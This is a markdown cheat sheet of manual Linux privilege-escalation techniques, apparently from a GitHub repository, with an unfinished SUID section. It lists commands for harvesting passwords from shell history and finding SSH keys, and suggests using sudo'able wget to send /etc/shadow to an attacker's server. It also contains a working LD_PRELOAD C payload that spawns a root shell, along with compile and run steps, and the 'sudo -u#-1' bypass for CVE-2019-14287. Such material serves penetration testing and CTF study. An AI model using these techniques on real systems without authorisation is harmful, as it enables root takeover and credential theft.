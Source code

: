 # ***Manual Linux Privilege Escalation Checks***

## **[KERNEL EXPLOITS]**

*An outdated kernel version may lead to easy wins.*

    uname -a


## **[PASSWORDS AND FILE PERMISSIONS]**

*A password or sensitive file disclosure can give us important information.*

### *Stored Passwords*

    history
    cat .bash_history


### *Weak File Permissions*

Look for **read or write** permissions to `/etc/shadow`

Look for **write** permission to `/etc/passwd`


### *SSH Keys*

    find / -name id_rsa 2>/dev/null
    find / -name authorized_keys 2>/dev/null
    
## **[SUDO]**

*Abusing sudo to gain root.*

### *Sudo Shell Escaping*

    sudo -l

Shell escape using an exploitable binary using [GTFOBins](https://gtfobins.github.io/)

### *Intended Functionality*

Is there any intended functionality we can abuse from a sudo'able binary? Example: use `wget` to upload the `/etc/shadow` file to our private server?

### *`env_keep+=ENV_PRELOAD` is present*

*We want to use the ENV_PRELOAD feature in order to preload a malicious payload.*

1. Create the following C script named `<NAME>.so`

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

2. Compile it : `gcc -fPIC -shared -o <NAME>.so <NAME>.c -nostartfiles`

3. Set LD_PRELOAD as shell.so : `sudo LD_PRELOAD=<PATH TO SHELL FILE> <ANY SUDO'ABLE COMMAND>`

### *Version Specific Exploits*

#### *Abusing CVE-2019-14287 (sudo version <1.8.28)*

[CVE-2019-14287](https://www.exploit-db.com/exploits/47502) Comes in handy if we can sudo as any user, except root (`!root`).

1. Check sudo version: `sudo -V`

2. If the sudo version is below 1.8.28, use this command to run as root: `sudo -u#-1 <COMMAND>`

#### *Abusing CVE-2019-18634 (sudo version <1.8.26)*
[Exploit for CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634) 

1. Check sudo version: `sudo -V`

2. If the sudo version is below 1.8.26, check if `pwfeedback` is present.

3. Run the exploit.

## **SUID**

WIP

